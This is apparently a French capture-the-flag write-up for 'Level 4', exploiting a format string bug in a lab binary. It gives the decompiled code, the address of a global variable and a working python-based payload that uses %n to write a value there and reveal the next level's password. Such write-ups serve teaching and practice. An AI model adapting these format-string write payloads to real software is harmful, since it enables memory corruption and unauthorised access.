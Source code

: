# Level 4 - Format String Vulnerability

## Analyse du binaire
En décompilant le binaire, on trouve le code suivant :

```c
void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) // 16930116 en décimal
  {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}
```

Le programme :
1. Lit l'entrée utilisateur avec fgets
2. Passe cette entrée à la fonction p()
3. Compare la variable globale 'm' avec 0x1025544
4. Si égal, affiche le flag

## Vulnérabilité
- Le programme est vulnérable à une attaque format string via la fonction p()
- Nous pouvons utiliser cette vulnérabilité pour écrire à l'adresse de 'm'
- L'adresse de 'm' est : 0x8049810

## Exploitation
Pour obtenir le flag, nous devons :
1. Écrire l'adresse de 'm' au début de notre payload
2. Utiliser %n pour écrire la valeur 16930116 à cette adresse

La commande :
```bash
(python -c 'print("\x10\x98\x04\x08" + "%16930112d" + "%12$n")'; cat -) | ./level4
```

Décomposition :
- `\x10\x98\x04\x08` : Adresse de 'm' en little-endian
- `%16930112d` : Format qui va générer 16930112 espaces
- `%12$n` : Écrit le nombre de caractères affichés à la 12ème position de la stack
- `cat -` : Garde stdin ouvert

## Résultat
L'exploit modifie avec succès la valeur de 'm' à 0x1025544, ce qui déclenche l'affichage du flag.

Note : On utilise %16930112d au lieu de répéter 'A' 16930112 fois car le terminal ne peut pas gérer autant de caractères directement.

